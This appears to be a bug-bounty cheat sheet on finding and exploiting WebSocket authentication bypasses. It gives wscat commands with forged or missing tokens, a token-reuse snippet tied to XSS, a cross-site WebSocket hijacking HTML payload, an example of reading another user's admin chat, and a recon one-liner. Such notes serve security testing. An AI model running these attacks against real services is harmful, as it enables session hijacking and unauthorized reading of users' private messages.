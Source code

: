 [[WebSocket]]
 
 WebSocket (wss:// or ws://) is a communication protocol used for real-time features To connect to a WebSocket server, the client usually sends a URL like:

```
wss://example.com/ws?token=eyJhbGciOiJIUzI1...
```

The token is supposed to verify the user's identity.

### How to Find WebSocket Auth Bypass

#### Identify WebSocket Usage

In browser DevTools → Network tab → filter by "WS"

Look for URLs like:

```
wss://api.target.com/ws?token=...
OR
wss://chat.example.com/socket
```
 Check if they contain 
 - token=
- auth=
- session ID
- org ID
- email/username

#### Analyze the Initial Handshake
Use tools like:

```
# Using wscat (Node.js)
wscat -c "wss://target.com/ws?token=xyz123"


# Or using curl-like syntax with websocat
websocat "wss://target.com/ws"
```

Watch what happens:

- Do you get a response?
- Can you send/receive messages?
- Try removing the token or sending a forged one.

#### Test These Exploit Techniques

1. Use Invalid Token
Try replacing the token with garbage:

```
wscat -c "wss://target.com/ws?token=FAKE123"
```

If you're still connected and can receive messages — auth is broken.

2. No Token at All
```
wscat -c "wss://target.com/ws"
```

If it works, there's no auth at all.

3. Reuse Victim's Token from LocalStorage or URL
If token is in JavaScript or exposed in source:

```
const socket = new WebSocket("wss://target.com/ws?token=" + localStorage.token);
```

You can steal it via XSS, or even Wayback Machine.

4. Session Cookies Automatically Sent?
If backend only checks for cookies and not WebSocket origin, try CSWSH (Cross-Site WebSocket Hijacking):

- Host malicious HTML page
- Auto-connect WebSocket from victim's browser
- Cookies will be sent!

```js
<script>
  const ws = new WebSocket("wss://target.com/ws");
  ws.onmessage = e => console.log(e.data);
</script>
```

Victim's browser sends session cookie → you get their real-time data.

#### Example PoC (Full Flow)
Let's say a chat app uses:

```
wss://chat.vulnerablesite.com/socket?user_id=123&token=abc
```

You try:
```
wscat -c "wss://chat.vulnerablesite.com/socket?user_id=456&token=123456"
```

You send this message:
```
{"action": "read_messages", "room_id": "admin"}
```

If server replies with actual data, you've bypassed auth.

Tools and their purpose: 
wscat → Interact manually
websocat → Script automation
Burp Suite → Intercept WebSocket handshake 

#### Recon tips 
Use gau, waybackurls, or github-dorks to find JS files:
```
cat urls.txt | grep ".js" | while read url; do curl -s $url | grep -i websocket; done
```

Search for code like:
```
new WebSocket("wss://")
```

### Reference 
https://freedium.cfd/https://infosecwriteups.com/exploiting-websocket-authentication-bypass-3d2c998fc062